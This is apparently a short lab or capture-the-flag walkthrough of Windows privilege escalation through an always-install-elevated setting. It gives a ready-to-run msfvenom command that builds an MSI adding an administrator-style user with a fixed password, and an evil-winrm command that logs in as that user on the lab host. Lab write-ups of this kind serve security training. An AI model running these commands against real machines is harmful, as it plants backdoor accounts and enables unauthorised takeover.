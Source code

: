 Scan complete.





Install as elevated is possibles so usse msfvenom to create an exploit

msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi

Use curl to get this onto the machine

Run the alwe.msi which creates a user 
rottenadmin
P@ssword123!

use evil-winrm to access the machine
evil-winrm -i 10.10.10.239 -u rottenadmin -p P@ssword123!

Access key 
Rooted!!!!

